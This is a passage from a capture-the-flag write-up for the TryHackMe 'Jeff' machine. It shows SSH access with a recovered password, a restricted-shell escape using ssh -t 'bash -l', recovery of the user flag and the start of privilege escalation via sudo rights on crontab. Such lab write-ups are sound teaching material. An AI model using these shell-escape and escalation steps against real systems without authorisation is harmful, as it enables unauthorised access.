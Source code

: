 
Your Password is: 123-M*****f-123 


1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 
We now have jeff’s password and we can connect via SSH. Unfortunately, there is another complexity, we are in a restricted bash (rbash) environment, that prevents us from reading the user flag:

kali@kali:/data/Jeff/files$ ssh jeff@jeff.thm
jeff@tryharder:~$ cat user.txt
-rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
Evade the restricted shell (rbash)
After some research on the Internet, I eventually found that appending -t "bash -l" to the SSH connection string allows to bypass the restricted bash.

kali@kali:/data/Jeff/files$ ssh jeff@jeff.thm -t "bash -l"
Warning: Permanently added the ECDSA host key for IP address '10.10.144.133' to the list of known hosts.
jeff@jeff.thm's password: 
jeff@tryharder:~$ ls -l
total 4
-rw-r----- 1 jeff jeff 36 May 11 12:04 user.txt
After manually defining some paths in the PATH environment variable, I was able to eventually read the user flag.

jeff@tryharder:~$ cat user.txt
Command 'cat' is available in '/bin/cat'
The command could not be located because '/bin' is not included in the PATH environment variable.
cat: command not found
jeff@tryharder:~$ echo $PATH
/home/jeff/.bin
jeff@tryharder:~$ export PATH=/bin:/usr/bin:/usr/sbin:/usr/local/bin
jeff@tryharder:~$ echo $PATH
/bin:/usr/bin:/usr/sbin:/usr/local/bin
jeff@tryharder:~$ cat user.txt
THM{Has*****rls}
I tried to validate the user flag but it failed.

User flag
The flag seems to be hashed (Has*****Girls) with MD5:

jeff@tryharder:~$ echo -n "Hash*****Girls" | md5sum
e12*****cac  -
User flag: THM{e12*****cac}

Escalate your privileges, whats the root flag?
Jeff’s privileges
After so many difficulties to get the user flag, I was not expecting anything from the sudo -l command, but was surprised to see that jeff was allowed to run crontab as root without password.

jeff@tryharder:~$ sudo -l
[sudo] password for jeff: 
Matching Defaults entries for jeff on tryharder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
